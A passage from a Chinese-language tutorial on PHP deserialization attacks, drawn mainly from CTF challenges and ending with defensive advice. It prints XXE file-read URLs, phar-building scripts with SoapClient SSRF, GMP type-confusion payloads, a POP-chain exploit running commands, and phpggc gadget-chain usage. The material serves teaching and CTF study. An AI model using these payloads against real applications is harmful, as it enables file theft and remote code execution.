SimpleXMLElement::__construct ( string $data [, int $options = 0 [, bool $data_is_url = false [, string $ns = "" [, bool $is_prefix = false ]]]] )
```


#### 例子：红日代码审计day3 ctf题

```php
<?php
class NotFound{
    function __construct()
    {
        die('404');
    }
}
spl_autoload_register(
    function ($class){
        new NotFound();
    }
);
$classname = isset($_GET['name']) ? $_GET['name'] : null;
$param = isset($_GET['param']) ? $_GET['param'] : null;
$param2 = isset($_GET['param2']) ? $_GET['param2'] : null;
if(class_exists($classname)){
    $newclass = new $classname($param,$param2);
    var_dump($newclass);
    foreach ($newclass as $key=>$value)
        echo $key.'=>'.$value.'<br>';
}
```


实例化类的类名和传入类的参数均在用户的控制之下。攻击者可以通过该漏洞，调用PHP代码库的任意构造函数。即使代码本身不包含易受攻击的构造函数，我们也可以使用PHP的内置类 **SimpleXMLElement** 来进行 **XXE** 攻击，进而读取目标文件的内容，甚至命令执行（前提是安装了PHP拓展插件expect），我们来看一下PHP手册对 [**SimpleXMLElement**](https://www.php.net/manual/zh/simplexmlelement.construct.php) 类的定义：


我们将会发现flag的文件名为 **f1agi3hEre.php** ，接下来我们使用内置类 **SimpleXMLElement** 读取 **f1agi3hEre.php** 文件的内容,，这里我们要结合使用PHP流的使用，因为当文件中存在： **< > & ‘ “** 这5个符号时，会导致XML文件解析错误，所以我们这里利用PHP文件流，将要读取的文件内容经过 **base64编码** 后输出即可，具体payload如下：


windows

```url
?name=SimpleXMLElement&para=?name=SimpleXMLElement&param=<?xml version="1.0"?><!DOCTYPE ANY [<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=D:\phpStudy\PHPTutorial\WWW\PSC2017\snowflake\f1agi3hEre.php">]><x>%26xxe;</x>&param2=2
```


**linux**

```url
http://localhost/CTF/index.php?name=SimpleXMLElement&param=<?xml version="1.0"?><!DOCTYPE ANY [<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/CTF/f1agi3hEre.php">]><x>%26xxe;</x>&param2=2
```

第二个参数实际上这里2对应的模式是 **LIBXML_NOENT**，因为在libxml>=2.9.0以后的版本默认不开启外部实体解析，需要添加这个参数开启。


## 0x07 php反序列化扩展phar

### 基本概念和常见利用方法

#### 简介

Phar（PHP Archive）文件是一种打包格式，将PHP代码文件和其他资源放入一个文件中来实现应用程序和库的分发。

在来自Secarma的安全研究员Sam Thomas在18年的Black Hat上提出后利用方式后，开始受到广泛的关注。

Phar可利用是因为Phar以序列化的形式存储用户自定义的meta-data，而以流的形式打开的时候，会自动反序列化，从而触发对应的攻击载荷。


#### Phar文件结构

Phar由四个部分组成，分别是 `stub` / `manifest` / 文件内容 / 签名。 stub 需要 `__HALT_COMPILER();` 这个调用在PHP代码中。

manifest 包含压缩文件的权限、属性、序列化形式存储的meta-data等信息，这是攻击的核心部分，主要就是解析Phar时对meta-data的反序列化。


phar的实现在 `php-src/ext/phar/phar.c` 中，主要是 `phar_parse_metadata` 函数在解析phar文件时调用了 `php_var_unserialize` ，因而造成问题。

而php在文件流处理过程中会调用 `_php_stream_stat_path` (/main/streams/streams.c) ，而后间接调用 `phar_wrapper_stat` ，所以大量的文件操作函数都可以触发phar的反序列问题。


目前已知部分的触发函数有:

```
fileatime / filectime / filemtime /stat / fileinode / fileowner / filegroup / fileperms / file / file_get_contents / readfile / fopen / file_exists / is_dir / is_executable / is_file / is_link / is_readable / is_writeable / is_writable / parse_ini_file / unlink / copy / exif_thumbnail / exif_imagetype / imageloadfont / imagecreatefrom / hash_hmac_file / hash_file / hash_update_file / md5_file / sha1_file / get_meta_tags / get_headers / getimagesize / getimagesizefromstring /ZipArchive->extractTo /finfo_file
```


#### 生成phar

```php
<?php
    class TestObject {
    }
    // 生成phar 文件的格式
    @unlink("phar.phar");
    $o = new TestObject();
    $phar = new Phar("phar.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
    $phar->setMetadata($o); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
?>
```

注意：

- 要将php.ini中的**`phar.readonly`选项设置为Off**，否则无法生成phar文件。

- 生成时必须设置为phar后缀，生成后可以改后缀进行上传。


#### 伪造phar 文件为其他格式

只需要改 文件头 stub即可,php识别phar文件是通过其文件头的stub，更确切一点来说是`__HALT_COMPILER();?>`这段代码，对前面的内容或者后缀名是没有要求的。那么我们就可以通过添加任意的文件头+修改后缀名的方式将phar文件伪装成其他格式的文件

```php
$phar->setStub("GIF89a" . "<?php __HALT_COMPILER(); ?>");
```


例如SUCTF2019 uploads 2 中`$phar->setStub("GIF89a< ?php __HALT_COMPILER(); ?>");`  


<和？中间加了一个空格绕过了Check类的check检查，这个修改对phar文件没有影响


#### 利用条件

- phar 文件能够上传
- 文件操作函数参数可控, `:` ,`/` `phar` 等特殊字符没有被过滤
- 有可用的魔术方法作为”跳板”


#### bypass phar:// 不能出现在首部

这时候我们可以利用`compress.zlib://` 或`compress.bzip2://`函数,`compress.zlib://`和`compress.bzip2://`同样适用于`phar://`。

payload: `compress.zlib://phar://phar.phar/test.txt`


**ctf题中出现的一些过滤：**

```php
if(preg_match('/^(ftp|zlib|data|glob|phar|ssh2|compress.bzip2|compress.zlib|rar|ogg|expect)(.|\\s)*|(.|\\s)*(file|data|\.\.)(.|\\s)*/i',$_POST['url'])){
        die("Go away!");
    }
```

这里过滤了phar协议，但是可以使用php://filter协议进行绕过

`php://filter/resource=phar://upload/46c01c941bd10a9c3038752f7354f2e8/b1b288ddc6069e3befa40731e382b192.jpeg`


也可以使用zip或者bzip2协议绕过

```javascript
demo.php?filename=compress.bzip2://phar://upload_file/shell.gif/a
```


#### Postgresql

```php
<?php
$pdo = new PDO(sprintf("pgsql:host=%s;dbname=%s;user=%s;password=%s", "127.0.0.1", "postgres", "sx", "123456"));
$pdo->pgsqlCopyFromFile('aa', 'phar://test.phar/aa');
```

pgsqlCopyToFile和pg_trace同样也是能使用的，只是它们需要开启phar的写功能

#### MySQL

LOAD DATA LOCAL INFILE也会触发这个php_stream_open_wrapper.

但是需要修改mysqld配置,因为不是默认配置

```ini
[mysqld]
local-infile=1
secure_file_priv=""
```


例如如下代码：

```php
<?php
class A { 
    public $s = ''; 
    public function __wakeup () {
        system($this->s);
    }   
}
$m = mysqli_init();
mysqli_options($m, MYSQLI_OPT_LOCAL_INFILE, true);
$s = mysqli_real_connect($m, 'localhost', 'root', 'root', 'mesboard', 3306);
$p = mysqli_query($m, 'LOAD DATA LOCAL INFILE \'phar://test.phar/aaa\' INTO TABLE users  LINES TERMINATED BY \'\r\n\'  IGNORE 1 LINES;');
```


`makphar.php`:

```php
<?php 
class A{
        public $s='ls';
}

@unlink('test.phar');
$phar=new Phar('test.phar');
$phar->startBuffering();
$phar->addFromString('a','a');
$phar->setStub('<?php __HALT_COMPILER();?>');
$o=new A();
$phar->setMetaData($o);
$phar->stopBuffering();

?>
```


`php5.6`下：

[](https://www.github.com/coomrade/Img/raw/master/pics/1540438957427.png)


php7.0`:

[](https://www.github.com/coomrade/Img/raw/master/pics/1540439032065.png)


只需要目标表是存在的就可以了，并没有其他要求，唯一可惜的就是不是默认配置


### 例题：SUCTF 2019 uploads 2


题目源码：

class.php

```php
<?php
include 'config.php';

class Ad{

    public $cmd;

    public $clazz;
    public $func1;
    public $func2;
    public $func3;
    public $instance;
    public $arg1;
    public $arg2;
    public $arg3;

    function __construct($cmd, $clazz, $func1, $func2, $func3, $arg1, $arg2, $arg3){

        $this->cmd = $cmd;

        $this->clazz = $clazz;
        $this->func1 = $func1;
        $this->func2 = $func2;
        $this->func3 = $func3;
        $this->arg1 = $arg1;
        $this->arg2 = $arg2;
        $this->arg3 = $arg3;
    }

    function check(){

        $reflect = new ReflectionClass($this->clazz);
        $this->instance = $reflect->newInstanceArgs();

        $reflectionMethod = new ReflectionMethod($this->clazz, $this->func1);
        $reflectionMethod->invoke($this->instance, $this->arg1);

        $reflectionMethod = new ReflectionMethod($this->clazz, $this->func2);
        $reflectionMethod->invoke($this->instance, $this->arg2);

        $reflectionMethod = new ReflectionMethod($this->clazz, $this->func3);
        $reflectionMethod->invoke($this->instance, $this->arg3);
    }

    function __destruct(){
        system($this->cmd);
    }
}

if($_SERVER['REMOTE_ADDR'] == '127.0.0.1'){
    if(isset($_POST['admin'])){
        $cmd = $_POST['cmd'];

        $clazz = $_POST['clazz'];
        $func1 = $_POST['func1'];
        $func2 = $_POST['func2'];
        $func3 = $_POST['func3'];
        $arg1 = $_POST['arg1'];
        $arg2 = $_POST['arg2'];
        $arg2 = $_POST['arg3'];
        $admin = new Ad($cmd, $clazz, $func1, $func2, $func3, $arg1, $arg2, $arg3);
        $admin->check();
    }
}
else {
    echo "You r not admin!";
}
```


可以直接看到命令执行的地方，需要绕过

$_SERVER['REMOTE_ADDR'] == '127.0.0.1'

这个地方基本上就是SSRF了


func.php

```php
<?php
include 'class.php';

if (isset($_POST["submit"]) && isset($_POST["url"])) {
    if(preg_match('/^(ftp|zlib|data|glob|phar|ssh2|compress.bzip2|compress.zlib|rar|ogg|expect)(.|\\s)*|(.|\\s)*(file|data|\.\.)(.|\\s)*/i',$_POST['url'])){
        die("Go away!");
    }else{
        $file_path = $_POST['url'];
        $file = new File($file_path);
        $file->getMIME();
        echo "<p>Your file type is '$file' </p>";
    }
}

?>
```

这里过滤了phar协议，但是可以使用php://filter协议进行绕过，跟进后又看到有很多的魔法函数，可以猜测考点在phar协议的利用


跟进看一看类File

```php
class File{

    public $file_name;
    public $type;
    public $func = "Check";

    function __construct($file_name){
        $this->file_name = $file_name;
    }

    function __wakeup(){
        $class = new ReflectionClass($this->func);
        $a = $class->newInstanceArgs($this->file_name);
        $a->check();
    }
    
    function getMIME(){
        $finfo = finfo_open(FILEINFO_MIME_TYPE);
        $this->type = finfo_file($finfo, $this->file_name);
        finfo_close($finfo);
    }

    function __toString(){
        return $this->type;
    }

}
```

由于phar协议涉及到文件操作，这里的getMIME正好进行finfo_file文件操作，这个函数很有可能能够进行利用。

考虑phar协议的利用：

1. 构造出phar文件
2. 上传phar文件

看看有没有上传点，index.php就是


index.php

```php
<?php
include 'class.php';

$userdir = "upload/" . md5($_SERVER["REMOTE_ADDR"]);
if (!file_exists($userdir)) {
    mkdir($userdir, 0777, true);
}
if (isset($_POST["upload"])) {
    // 允许上传的图片后缀
    $allowedExts = array("gif", "jpeg", "jpg", "png");
    $tmp_name = $_FILES["file"]["tmp_name"];
    $file_name = $_FILES["file"]["name"];
    $temp = explode(".", $file_name);
    $extension = end($temp);
    if ((($_FILES["file"]["type"] == "image/gif")
            || ($_FILES["file"]["type"] == "image/jpeg")
            || ($_FILES["file"]["type"] == "image/png"))
        && ($_FILES["file"]["size"] < 204800)   // 小于 200 kb
        && in_array($extension, $allowedExts)
    ) {
        $c = new Check($tmp_name);
        $c->check();
        if ($_FILES["file"]["error"] > 0) {
            echo "错误：: " . $_FILES["file"]["error"] . "<br>";
            die();
        } else {
            move_uploaded_file($tmp_name, $userdir . "/" . md5($file_name) . "." . $extension);
            echo "文件存储在: " . $userdir . "/" . md5($file_name) . "." . $extension;
        }
    } else {
        echo "非法的文件格式";
    }
    
}
```

上传的文件需要经过校验：

1. `$_FILES["file"]["type"]`文件类型校验

2. `in_array($extension, $allowedExts)`白名单校验

3. Check类的check函数

   ```php
   class Check{
   
       public $file_name;
   
       function __construct($file_name){
           $this->file_name = $file_name;
       }
   
       function check(){
           $data = file_get_contents($this->file_name);
           if (mb_strpos($data, "<?") !== FALSE) {
               die("&lt;? in contents!");
           }
       }
   }
   ```

   文件内容中不能出现`<?`


#### 思路

1. 访问index上传phar文件，需要改一个后缀
2. 访问func利用phar协议触发反序列化
3. 利用反序列化调用wakeup函数发送soap访问admin.php，执行系统命令。
4. 


#### 准备phar文件

```php
<?php

class File{

    public $file_name;
    public $type;
    public $func = "SoapClient";

    function __construct(){
        $this->file_name = array(null, array('location' => "http://127.0.0.1/admin.php", 'uri' => "c", 'user_agent' => "catcat\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: 133\r\n\r\ncmd=ls&admin=1&clazz=ArrayIterator&func1=append&func2=append&func3=append&arg1=1&arg2=1&arg3=1\r\n\r\n\r\n"));
    }

}

$o = new File();
$phar=new Phar('poc.phar');
$phar->startBuffering();
$phar->setStub("GIF89a< ?php __HALT_COMPILER(); ?>");
$phar->setMetadata($o);
$phar->addFromString("foo.txt","bar");
$phar->stopBuffering();
```


注意这里 对phar文件的Stub头的构造，<和？中间加了一个空格绕过了Check类的check检查，这个修改对phar文件没有影响

phar文件识别的标志为`__HALT_COMPILER();?>` 前面可以任意修改，这就可以绕过很多限制。


#### payload

`php://filter/resource=phar://upload/46c01c941bd10a9c3038752f7354f2e8/b1b288ddc6069e3befa40731e382b192.jpeg`


## 0x08 php GMP反序列化类型混淆漏洞

首先我们来看一段测试代码

```php
<?php

class obj
{
    var $ryat;

    function __wakeup()
    {
        $this->ryat = 1;
    }
}

class b{
    var $ryat =1;
}

$obj = new stdClass;
$obj->aa = 1;
$obj->bb = 2;

$obj2 = new b;

$obj3 = new stdClass;
$obj3->aa =2;


$inner = 's:1:"1";a:3:{s:2:"aa";s:2:"hi";s:2:"bb";s:2:"hi";i:0;O:3:"obj":1:{s:4:"ryat";R:2;}}';
$exploit = 'a:1:{i:0;C:3:"GMP":'.strlen($inner).':{'.$inner.'}}';
$x = unserialize($exploit);

$obj4 = new stdClass;

var_dump($x);
var_dump($obj);
var_dump($obj2);    
var_dump($obj3);
var_dump($obj4);

?>
```


让我们来看看结果是什么？

```php
array(1) {
  [0]=>
  &int(1)
}
object(stdClass)#1 (3) {
  ["aa"]=>
  string(2) "hi"
  ["bb"]=>
  string(2) "hi"
  [0]=>
  object(obj)#5 (1) {
    ["ryat"]=>
    &int(1)
  }
}
object(b)#2 (1) {
  ["ryat"]=>
  int(1)
}
object(stdClass)#3 (1) {
  ["aa"]=>
  int(2)
}
object(stdClass)#4 (0) {
}

```

这个payload的效果将$obj的已有属性修改为我们传入的值


但如果我将反序列化的类改成b会发生什么呢？

```bash
$inner = 's:1:"1";a:3:{s:2:"aa";s:2:"hi";s:2:"bb";s:2:"hi";i:0;O:1:"b":1:{s:4:"ryat";R:2;}}';
```

很显然的是，并不会影响到其他的类变量


如果我们给class b加一个__Wakeup函数，那么又会产生一样的效果。


但如果我们把wakeup魔术方法中的变量设置为2

```php
class obj
{
    var $ryat;

    function __wakeup()
    {
        $this->ryat = 2;
    }
}
```

返回的结果可以看出来，我们成功修改了第二个声明的对象。


但如果我们把ryat改为4，那么页面会直接返回500，因为我们修改了没有分配的对象空间。


在完成前面的试验后，我们可以把漏洞的利用条件简化一下。

如果我们有一个可控的**反序列化入口**，目标**后端PHP安装了GMP插件**（这个插件在原版php中不是默认安装的，但部分打包环境中会自带），如果我们找到一个**可控的`__wakeup`魔术方法**，我们就可以修改反序列化前声明的对象属性，并配合场景产生实际的安全问题。


如果目标的php版本在5.6 <= 5.6.11中，我们可以直接使用内置的魔术方法来触发这个漏洞。

```php
var_dump(unserialize('a:2:{i:0;C:3:"GMP":17:{s:4:"1234";a:0:{}}i:1;O:12:"DateInterval":1:{s:1:"y";R:2;}}'));
```


具体的mybb以及利用可以在参考连接中查看。


### mybb利用

```php
a:1:{i:0;C:3:"GMP":106:{s:1:"5";a:2:{s:5:"cache";a:1:{s:5:"index";s:14:"{${phpinfo()}}";}i:0;O:12:"DateInterval":1:{s:1:"y";R:2;}}}}
```


### ecsho4.0.7利用


### 例题：ddctf web4 Overwrite Me

```php

<?php
error_reporting(0);

class MyClass
{
    var $kw0ng;
    var $flag;

    public function __wakeup()
    {
        $this->kw0ng = 2;
    }

    public function get_flag()
    {
        return system('find /HackersForever ' . escapeshellcmd($this->flag));
    }
}

class HintClass
{
    protected  $hint;
    public function execute($value)
    {
        include($value);
    }

    public function __invoke()
    {
        if(preg_match("/gopher|http|file|ftp|https|dict|zlib|zip|bzip2|data|glob|phar|ssh2|rar|ogg|expect|\.\.|\.\//i", $this->hint))
        {
            die("Don't Do That!");
        }
        $this->execute($this->hint);
    }
}

class ShowOff
{
    public $contents;
    public $page;
    public function __construct($file='/hint/hint.php')
    {
        $this->contents = $file;
        echo "Welcome to DDCTF 2020, Have fun!<br/><br/>";
    }
    public function __toString()
    {
        return $this->contents();
    }

    public function __wakeup()
    {
        $this->page->contents = "POP me! I can give you some hints!";
        unset($this->page->cont);
    }
}

class MiddleMan
{
    private $cont;
    public $content;
    public function __construct()
    {
        $this->content = array();
    }

    public function __unset($key)
    {
        $func = $this->content;
        return $func();
    }
}

class Info
{
    function __construct()
    {
        eval('phpinfo();');
    }

}

$show = new ShowOff();
$bullet = $_GET['bullet'];

if(!isset($bullet))
{
    highlight_file(__FILE__);
    die("Give Me Something!");
}else if($bullet == 'phpinfo')
{
    $infos = new Info();
}else
{
    $obstacle1 = new stdClass;
    $obstacle2 = new stdClass;
    $mc = new MyClass();
    $mc->flag = "MyClass's flag said, Overwrite Me If You Can!";
    @unserialize($bullet);
    echo $mc->get_flag();
}

```


**思路1**：

- ShowOff类的\__wake_up调用MiddleMan的__unset

- 然后利用$func调用MyClass的get_flag方法

- find 方法可以执行命令。前提是存在/HackersForever

- payload

  ```php
  <?php
  //error_reporting(0);
  class MyClass
  {
      var $kw0ng;
      var $flag = '-exec cat /flag {} ;';
  
      public function __wakeup()
      {
          $this->kw0ng = 2;
      }
  
      public function get_flag()
      {
          return system('find /HackersForever ' . escapeshellcmd($this->flag));
      }
  }
  
  class HintClass
  {
      protected  $hint;
      public function execute($value)
      {
          include($value);
      }
  
      public function __invoke()
      {
          if(preg_match("/gopher|http|file|ftp|https|dict|zlib|zip|bzip2|data|glob|phar|ssh2|rar|ogg|expect|\.\.|\.\//i", $this->hint))
          {
              die("Don't Do That!");
          }
          $this->execute($this->hint);
      }
  }
  
  class ShowOff
  {
      public $contents;
      public $page;
      public function __construct($file='/hint/hint.php')
      {
          $this->contents = $file;
  //        echo "Welcome to DDCTF 2020, Have fun!<br/><br/>";
      }
      public function __toString()
      {
          return $this->contents();
      }
  
      public function __wakeup()
      {
          $this->page->contents = "POP me! I can give you some hints!";
          unset($this->page->cont);
      }
  }
  
  class MiddleMan
  {
      private $cont;
      public $content;
      public function __construct()
      {
          $this->content = array();
      }
  
      public function __unset($key)
      {
          $func = $this->content;
          return $func();
      }
  }
  
  class Info
  {
      function __construct()
      {
          eval('phpinfo();');
      }
  }
  
  echo "\n";
  $a = new ShowOff();
  
  $a->page  = new MiddleMan();
  $a->page->content = array(new MyClass(),'get_flag');
  
  $payload = urlencode(serialize($a));
  echo $payload,"\n";
  echo file_get_contents('http://127.0.0.1/ddctf2020/?bullet='.$payload),"\n";
  ```

  


**思路2**：

- 利用php的GMP类型混淆漏洞

- 两种利用方式，一种是利用有`__wakeup`的类，一种是利用`DateInterval`

- 利用方式1：MyClass->__wake_up

  ```php
  $inner = 's:1:"1";a:2:{s:4:"flag";s:14:"-exec cat {} ;";i:0;O:7:"MyClass":1:{s:5:"kw0ng";R:2;}}';
  $bullet = 'a:1:{i:0;C:3:"GMP":'.strlen($inner).':{'.$inner.'}}';
  ```

  最后一个`O`类型里面是存在`__wakeup`且`__wakeup`的内容是给属性赋值的类，关键是要覆盖的类必须是指定顺序实例化，比如这里，`MyClass`是第四个实例化，所以`MyClass`的`__wakeup()`必须是

  

  ```php
  public function __wakeup()
  {
      $this->kw0ng = 4;
  }
  ```

  但是这里的代码写死了2，用这个没法执行。还是得用DateInterval

  

- 利用方式2：DateInterval

  ```php
  $inner = 's:1:"4";a:2:{s:4:"flag";s:20:"-exec cat /flag {} ;";i:0;O:12:"DateInterval":1:{s:1:"y";R:2;}}';
  $exploit = 'a:1:{i:0;C:3:"GMP":'.strlen($inner).':{'.$inner.'}}';
  ```


## 0x09 php反序列化语句生成工具：[phpggc](https://github.com/ambionics/phpggc)


可以生成各种框架的利用链、phar文件等

```bash
git clone https://github.com/ambionics/phpggc.git
```


### 基本使用


#### Usage

Run `./phpggc -l` to obtain a list of gadget chains:

```bash
$ ./phpggc -l

Gadget Chains
-------------

NAME                                      VERSION                        TYPE             VECTOR         I    
CodeIgniter4/RCE1                         4.0.0-beta.1 <= 4.0.0-rc.4     rce              __destruct          
CodeIgniter4/RCE2                         4.0.0-rc.4 <= 4.0.3+           rce              __destruct          
Doctrine/FW1                              ?                              file_write       __toString     *    
Drupal7/FD1                               7.0 < ?                        file_delete      __destruct     *    
Drupal7/RCE1                              7.0.8 < ?                      rce              __destruct     *    
Guzzle/FW1                                6.0.0 <= 6.3.3+                file_write       __destruct          
Guzzle/INFO1                              6.0.0 <= 6.3.2                 phpinfo()        __destruct     *    
Guzzle/RCE1                               6.0.0 <= 6.3.2                 rce              __destruct     *    
Laminas/FD1                               <= 2.11.2                      file_delete      __destruct          
Laravel/RCE1                              5.4.27                         rce              __destruct          
Laravel/RCE2                              5.5.39                         rce              __destruct          
Laravel/RCE3                              5.5.39                         rce              __destruct     *    
Laravel/RCE4                              5.5.39                         rce              __destruct          
Laravel/RCE5                              5.8.30                         rce              __destruct     *    
Laravel/RCE6                              5.5.*                          rce              __destruct     *    
Magento/FW1                               ? <= 1.9.4.0                   file_write       __destruct     *    
Magento/SQLI1                             ? <= 1.9.4.0                   sql_injection    __destruct          
Monolog/RCE1                              1.18 <= 2.0.2                  rce              __destruct          
Monolog/RCE2                              1.5 <= 1.17                    rce              __destruct          
Monolog/RCE3                              1.1.0 <= 1.10.0                rce              __destruct          
Phalcon/RCE1                              <= 1.2.2                       rce              __wakeup       *    
Pydio/Guzzle/RCE1                         < 8.2.2                        rce              __toString          
Slim/RCE1                                 3.8.1                          rce              __toString          
SwiftMailer/FD1                           -5.4.12+, -6.2.1+              file_delete      __destruct          
SwiftMailer/FW1                           5.1.0 <= 5.4.8                 file_write       __toString          
SwiftMailer/FW2                           6.0.0 <= 6.0.1                 file_write       __toString          
SwiftMailer/FW3                           5.0.1                          file_write       __toString          
SwiftMailer/FW4                           4.0.0 <= ?                     file_write       __destruct          
Symfony/FW1                               2.5.2                          file_write       DebugImport    *    
Symfony/FW2                               3.4                            file_write       __destruct          
Symfony/RCE1                              3.3                            rce              __destruct     *    
Symfony/RCE2                              2.3.42 < 2.6                   rce              __destruct     *    
Symfony/RCE3                              2.6 <= 2.8.32                  rce              __destruct     *    
Symfony/RCE4                              3.4.0-34, 4.2.0-11, 4.3.0-7    rce              __destruct     *    
ThinkPHP/RCE1                             5.1.x-5.2.x                    rce              __destruct     *    
WordPress/Dompdf/RCE1                     <= 0.8.5+                      rce              __destruct     *    
WordPress/Dompdf/RCE2                     0.7.0 <= 0.8.4                 rce              __destruct     *    
WordPress/Guzzle/RCE1                     4.0.0 <= 6.4.1+                rce              __toString     *    
WordPress/Guzzle/RCE2                     4.0.0 <= 6.4.1+                rce              __destruct     *    
WordPress/P/EmailSubscribers/RCE1         4.0 <= 4.4.7+                  rce              __destruct     *    
WordPress/P/EverestForms/RCE1             1.0 <= 1.6.7+                  rce              __destruct     *    
WordPress/P/WooCommerce/RCE1              3.4.0 <= 4.1.0+                rce              __destruct     *    
WordPress/P/YetAnotherStarsRating/RCE1    ? <= 1.8.6                     rce              __destruct     *    
Yii/RCE1                                  1.1.20                         rce              __wakeup       *    
ZendFramework/FD1                         ? <= 1.12.20                   file_delete      __destruct          
ZendFramework/RCE1                        ? <= 1.12.20                   rce              __destruct     *    
ZendFramework/RCE2                        1.11.12 <= 1.12.20             rce              __toString     *    
ZendFramework/RCE3                        2.0.1 <= ?                     rce              __destruct       
```

Filter gadget chains:

```bash
$ ./phpggc -l laravel

Gadget Chains
-------------

NAME                                      VERSION                        TYPE             VECTOR         I    
Laravel/RCE1                              5.4.27                         rce              __destruct          
Laravel/RCE2                              5.5.39                         rce              __destruct          
Laravel/RCE3                              5.5.39                         rce              __destruct     *    
Laravel/RCE4                              5.5.39                         rce              __destruct          
Laravel/RCE5                              5.8.30                         rce              __destruct     *    
Laravel/RCE6                              5.5.*                          rce              __destruct     *    
```

Every gadget chain has:

- Name: Name of the framework/library
- Version: Version of the framework/library for which gadgets are for
- Type: Type of exploitation: RCE, File Write, File Read, Include...
- Vector: the vector to trigger the chain after the unserialize (`__destruct()`, `__toString()`, `offsetGet()`, ...)
- Informations: Other informations about the chain

Use `-i` to get detailed information about a chain:

```
$ ./phpggc -i symfony/rce1
Name           : Symfony/RCE1
Version        : 3.3
Type           : rce
Vector         : __destruct
Informations   : 
Exec through proc_open()

./phpggc Symfony/RCE1 <command>
```

Once you have selected a chain, run `./phpggc <gadget-chain> [parameters]` to obtain the payload. For instance, to obtain a payload for Monolog, you'd do:

```
$ ./phpggc monolog/rce1 assert 'phpinfo()'
O:32:"Monolog\Handler\SyslogUdpHandler":1:{s:9:"*socket";O:29:"Monolog\Handler\BufferHandler":7:{s:10:"*handler";r:2;s:13:"*bufferSize";i:-1;s:9:"*buffer";a:1:{i:0;a:2:{i:0;s:10:"phpinfo();";s:5:"level";N;}}s:8:"*level";N;s:14:"*initialized";b:1;s:14:"*bufferLimit";i:-1;s:13:"*processors";a:2:{i:0;s:7:"current";i:1;s:6:"assert";}}}
```

For a file write using SwiftMailer, you'd do:

```
$ echo 'It works !' > /tmp/data
$ ./phpggc swiftmailer/fw1 /var/www/html/shell.php /tmp/data
O:13:"Swift_Message":8:{...}
```

#### Wrapper

The `--wrapper` (`-w`) option allows you to define a PHP file containing the following functions:

- `process_parameters($parameters)`: Called right **before** `generate()`, allows to change parameters
- `process_object($object)`: Called right **before** `serialize()`, allows to change the object
- `process_serialized($serialized)`: Called right **after** `serialize()`, allows to change the serialized string

For instance, if the vulnerable code looks like this:

```php
<?php
$data = unserialize($_GET['data']);
print $data['message'];
```

You could use a `__toString()` chain, wrapping it like so:

```php
<?php
# /tmp/my_wrapper.php
function process_object($object)
{
    return array(
        'message' => $object
    );
}
```

And you'd call phpggc like so:

```php
$ ./phpggc -w /tmp/my_wrapper.php slim/rce1 system id
a:1:{s:7:"message";O:18:"Slim\Http\Response":2:{...}}
```


#### PHAR(GGC)

##### History

At BlackHat US 2018, @s_n_t released PHARGGC, a fork of PHPGGC which instead of building a serialized payload, builds a whole PHAR file. This PHAR file contains serialized data and as such can be used for various exploitation techniques (`file_exists`, `fopen`, etc.). The paper is [here](https://cdn2.hubspot.net/hubfs/3853213/us-18-Thomas-It's-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-....pdf).

##### Implementation

PHAR archives come in three different formats: **PHAR, TAR, and ZIP**. The three of them are supported by PHPGGC. Polyglot files can be generated using `--phar-jpeg` (`-pj`). Other options are available (use `-h`).

##### Examles

```bash
$ # Creates a PHAR file in the PHAR format and stores it in /tmp/z.phar
$ ./phpggc -p phar -o /tmp/z.phar monolog/rce1 system id
$ # Creates a PHAR file in the ZIP format and stores it in /tmp/z.zip.phar
$ ./phpggc -p zip -o /tmp/z.zip.phar monolog/rce1 system id
$ # Creates a polyglot JPEG/PHAR file from image /tmp/dummy.jpg and stores it in /tmp/z.zip.phar
$ ./phpggc -pj /tmp/dummy.jpg -o /tmp/z.zip.phar monolog/rce1 system id
```


#### Encoders

Arguments allow to modify the way the payload is output. For instance, `-u` will URL encode it, and `-b` will convert it to base64. **Payloads often contain NULL bytes and cannot be copy/pasted as-is**. Use `-s` for a soft URL encode, which keeps the payload readable.

The encoders can be chained, and as such **the order is important**. For instance, `./phpggc -b -u -u slim/rce1 system id` will **base64** the payload, then **URLencode it twice.**


#### Advanced: Enhancements

##### Fast destruct

PHPGGC implements a `--fast-destruct` (`-f`) flag, that will make sure your serialized object will be destroyed right after the `unserialize()` call, and not at the end of the script. **I'd recommend using it for every `__destruct` vector**, as it improves reliability. For instance, if PHP script raises an exception after the call, the `__destruct` method of your object might not be called. As it is processed at the same time as encoders, it needs to be set first.

```
$ ./phpggc -f -s slim/rce1 system id
a:2:{i:7;O:18:"Slim\Http\Response":2:{s:10:"...
```


#### ASCII Strings

Uses the `S` serialization format instead of the standard `s`. This replaces every non-ASCII value to an hexadecimal representation: **`s:5:"A<null_byte>B<cr><lf>";̀` -> `S:5:"A\00B\09\0D";`** This can be useful when for some reason non-ascii characters are not allowed (NULL BYTE for instance). Since payloads generally contain them, this makes sure that the payload consists only of ASCII values. *Note: this is experimental and it might not work in some cases.*


#### Plus Numbers

Sometimes, PHP scripts verify that the given serialized payload does not contain objects by using a regex such as `/O:[0-9]+:`. This is easily bypassed using `O:+123:...` instead of `O:123:`. One can use `--plus-numbers <types>`, or `-n <types>`, to automatically add these `+` signs in front of symbols. For instance, to obfuscate objects and strings, one can use: `--n Os`. Please note that since PHP 7.2, only i and d (float) types can have a +.


### phpggc流程分析


### phpggc拓展


## 0x10 php反序列化防御方法


### 防御策略

#### 动态调用与危险函数

1. 在写到动态调用和危险函数时，务必对变量和方法进行回溯。查看变量是否是可控的。
2. 在容许的情况下，使用静态属性进行动态调用可以防止可控变量调用危险函数。
3. 在调用`$this->aaa->bbb()`这样类似的结构前可以利用`instanceof`进行检查，查看其是否是期望调用的类。

### 方法

1. 注意尽量少的在魔法方法中写入可以调用大量其它方法的方法。尤其是`__destruct`和`__wakeup`。
2. 注意在公共且不需要参数的方法中不要直接调用危险函数和动态调用。
3. 在不需要`__wakeup`方法且类没必要序列化时，可以考虑**使用`__wakeup`阻止反序列化。**

### 最最最最最重要的

不要让unserialize和文件类函数用户可控！！！
不要让unserialize和文件类函数用户可控！！！
不要让unserialize和文件类函数用户可控！！！


# 转载与参考链接

- [PHP 序列化（serialize）格式详解](https://www.neatstudio.com/show-161-1.shtml)
